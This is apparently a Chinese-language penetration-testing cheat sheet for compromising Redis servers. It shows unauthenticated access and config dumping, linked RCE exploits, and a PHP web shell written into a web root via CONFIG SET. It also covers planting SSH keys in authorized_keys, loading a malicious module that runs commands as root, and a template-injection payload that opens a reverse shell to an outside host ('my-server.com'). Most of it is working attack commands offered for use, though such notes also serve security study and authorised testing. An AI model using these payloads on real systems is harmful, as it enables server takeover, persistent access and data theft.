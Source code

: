 默认情况下，Redis 可以在没有凭据的情况下访问。但是，它可以配置为仅支持密码，或用户名 + 密码。
可以在 redis.conf 文件中使用参数 requirepass 设置密码，或者在服务重新启动时连接并运行 config set requirepass p@ss$12E45 。
另外，用户名可以在 redis.conf 文件中的参数 masteruser 中配置。
如果只配置了密码，则使用的用户名是“default”。

**/etc/systemd/system/redis.service  --> 可写目录揭示**
**/etc/redis/redis.conf --> 配置文件(AUTH crediential)**
```bash
redis-cli -h <ip>
redis-cli -h 192.168.120.85 -a Ready4Redis?
>info
>AUTH <username> <password>
>client list
>CONFIG GET *
# Interact
select <db numble>
keys * #显示所有键值
get <key name>
```

# RCE
## Exploit
[redis-rogue-server <=5.0.5](https://github.com/n0b0dyCN/redis-rogue-server)
[Redis RCE - 4.\*/5.\*](https://github.com/Ridter/redis-rce?source=post_page-----88a3e0e21f62--------------------------------)
## WebShell
```bash
config set dir /usr/share/nginx/html
10.85.0.52:6379> config set dbfilename redis.php
10.85.0.52:6379> set shell "<?php echo system($_GET['cmd']); ?>"
10.85.0.52:6379> save
```
### payload - html template
```html
{{ ({}).constructor.constructor(
  "var net = global.process.mainModule.require('net'),
       cp = global.process.mainModule.require('child_process'),
       sh = cp.spawn('sh', []);
   var client = new net.Socket();
   client.connect(1234, 'my-server.com', function(){
      client.pipe(sh.stdin);
      sh.stdout.pipe(client);
      sh.stderr.pipe(client);
   });"
)()}}
```
## SSH
```bash
root@Urahara:~# redis-cli -h 10.85.0.52
config get dir
10.85.0.52:6379> config set dir /var/lib/redis/.ssh
10.85.0.52:6379> config set dbfilename "authorized_keys"
10.85.0.52:6379> save
```
## Loading Redis Module
1. Create a Exploit.so: https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
2. upload to target system.
```bash
MODULE LOAD /path/to/mymodule.so
MODULE LIST

127.0.0.1:6379> system.exec "id"
"uid=0(root) gid=0(root) groups=0(root)\n"
127.0.0.1:6379> system.exec "whoami"
"root\n"
127.0.0.1:6379> system.rev 127.0.0.1 9999
```
